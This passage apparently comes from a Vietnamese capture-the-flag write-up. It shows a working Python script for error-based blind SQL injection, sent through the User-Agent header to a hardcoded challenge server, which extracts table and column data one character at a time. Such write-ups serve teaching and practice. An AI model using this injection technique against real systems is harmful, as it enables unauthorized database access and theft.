 ```python
        else:
            # Nếu không tìm thấy tên bảng nào tại offset này, có thể đã hết bảng để tìm
            print(f"\nKhông tìm thấy bảng nào tại offset {offset}. Dừng tìm kiếm.")
            break
            
    print("\n\nQuá trình hoàn tất. Các bảng đã được tìm thấy:")
    if all_found_tables:
        for name in all_found_tables:
            print(f" - {name}")
    else:
        print("Không tìm thấy bảng nào.")

# Chạy hàm main khi script được thực thi
if __name__ == "__main__":
    main()
```

⇒ Tìm được 2 bảng là logger và flag

- Bước 2: ta sẽ khai thác các cột của bảng flag bằng script sau:

```python
import requests
import string

TARGET_URL = "http://103.97.125.56:31115"
CHARSET = string.ascii_letters + string.digits + "_-{}()" 
MAX_LENGTH = 100 

def ask_sql_question(sql_condition):
    """
    Nó nhận một điều kiện SQL (ví dụ: "substr(version(),1,1) = '5'").
    - Nếu điều kiện ĐÚNG, server trả về "Logged" -> hàm trả về True.
    - Nếu điều kiện SAI, server gây lỗi -> hàm trả về False.
    """
    # Payload gây lỗi nếu điều kiện (sql_condition) là sai
    error_trigger_payload = f"SELECT CASE WHEN ({sql_condition}) THEN 1 ELSE abs(-9223372036854775808) END"
    # Gói payload gây lỗi vào trong câu lệnh INSERT
    full_payload = f"', ({error_trigger_payload}), null, null, null),(null,'"
    headers = {'User-Agent': full_payload}
    
    try:
        response = requests.post(TARGET_URL, headers=headers, timeout=5)
        # Nếu server không lỗi và trả về "Logged", câu hỏi của chúng ta là ĐÚNG
        return "Logged" in response.text
    except requests.exceptions.RequestException:
        # Bất kỳ lỗi nào (HTTP 500, timeout) đều có nghĩa là câu hỏi của chúng ta SAI
        return False

def dump_string_with_sql(base_query):
    """
    Hàm này sử dụng ask_sql_question để mò ra một chuỗi ký tự.
    Nó nhận vào một câu lệnh SQL cơ sở (base_query) mà sẽ trả về một chuỗi duy nhất.
    Ví dụ: "SELECT name FROM sqlite_master LIMIT 1"
    """
    result_string = ""
    print(f"Bắt đầu mò chuỗi cho query: {base_query}")

    for i in range(1, MAX_LENGTH + 1):
        found_char_for_this_index = False
        for char in CHARSET:
            print(f"Đang thử vị trí {i}, ký tự '{char}'", end="\r")

```